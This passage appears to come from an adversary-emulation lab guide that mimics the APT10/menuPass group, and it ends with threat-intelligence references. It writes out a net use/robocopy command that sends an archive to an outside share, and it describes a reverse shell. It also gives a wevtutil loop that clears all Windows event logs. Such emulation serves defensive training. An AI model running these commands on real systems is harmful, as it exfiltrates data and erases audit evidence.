  ```
  net use \\manhwajia.au\digirevenge & robocopy C:\Windows\Temp \\manhwajia.au\digirevenge wmilog.rar /mt /z
  ```

* :arrow_right: Switch to an open terminal in Kali and confirm the exfiltration was successful

    ```
    ls -l /opt/menu_pass/digirevenge
    ```

* :arrow_right: Return to the RDP with the reverse shell and, using the reverse shell to the file server, execute the `wevtutil` utility to
clear Windows event logs

  ```
  for /F "tokens=*" %1 in ('wevtutil.exe el') DO wevtutil.exe cl "%1" -wait4145
  ```

* Exit the shell

  ```
  exit
  ```

* Close the Command Prompt then disconnect from the RDP session

### :mag: Reference Code & Reporting

1. <https://securelist.com/apt10-sophisticated-multi-layered-loader-ecipekac-discovered-in-a41apt-campaign/101519/>
1. <http://jsac.jpcert.or.jp/archive/2022/pdf/JSAC2022_9_yanagishita-tamada-nakatsuru-ishimaru_en.pdf>
1. <https://media.kasperskydaily.com/wp-content/uploads/sites/86/2021/02/25140359/greatidea_A41_v1.0.pdf>
1. <https://www.trendmicro.com/ja_jp/research/21/l/Sigloader-by-Earth-Tengshe.html>
1. <https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/cicada-apt10-china-ngo-government-attacks>
1. <https://jsac.jpcert.or.jp/archive/2021/pdf/JSAC2021_202_niwa-yanagishita_en.pdf>

 <details><summary>:link: Click to expand source code links table</summary></details>

<br>
